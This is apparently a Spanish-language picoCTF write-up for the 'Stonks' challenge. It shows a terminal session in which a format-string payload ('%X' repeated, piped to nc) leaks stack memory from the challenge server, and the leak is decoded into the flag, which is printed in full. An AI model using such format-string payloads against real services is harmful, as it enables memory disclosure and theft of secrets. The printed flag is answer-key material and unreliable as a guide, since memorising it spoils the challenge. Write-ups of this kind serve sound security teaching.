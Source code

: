 # Stonks

## Descripcion Reto
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

## Pistas
1. Okay, maybe I'd believe you if you find my API key.

## Solución
```bash
┌──(kali㉿kali)-[~/hacking/picoBinary/stonks]
└─$ ls -la
total 4
drwxrwx--- 1 root vboxsf    0 may 14 20:05 .
drwxrwx--- 1 root vboxsf    0 may 14 20:04 ..
-rwxrwx--- 1 root vboxsf 2744 mar 15  2021 vuln.c

┌──(kali㉿kali)-[~/hacking/picoBinary/stonks]
└─$ nc mercury.picoctf.net 16439   
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
a
Buying stonks with token:
a
Portfolio as of Mon May 15 02:19:20 UTC 2023


1 shares of B
2 shares of SC
12 shares of K
5 shares of BM
7 shares of HRT
19 shares of I
11 shares of AW
553 shares of O
101 shares of WT
Goodbye!

┌──(kali㉿kali)-[~/hacking/picoBinary/stonks]
└─$ python -c "print(1, '%X'*38)" | nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
929D370804B00080489C3F7F3BD80FFFFFFFF1929B160F7F49110F7F3BDC70929C1806929D350929D3706F6369707B465443306C5F49345F74356D5F6C6C306D5F795F79336E6263376365616336FFF9007DF7F76AF8F7F49440C3A9500010F7DD8CE9F7F4A0C0F7F3B5C0F7F3B000FFF93928F7DC968DF7F3B5C08048ECAFFF93934
Portfolio as of Mon May 15 02:23:59 UTC 2023


6 shares of IYRN
288 shares of AZ
918 shares of QBY
413 shares of GLE
Goodbye!

        
```

De los valores dados en hexadecimal decidimos decodificarlos y cambiar la posicion de los valores para poder encontrar la badera.

![[Pasted image 20230514213116.png]]

## Bandera
* picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}

## Notas adicionales
| Comando | Descripcion |
|---------|-------------|
|  |  |

## Referencias
- []()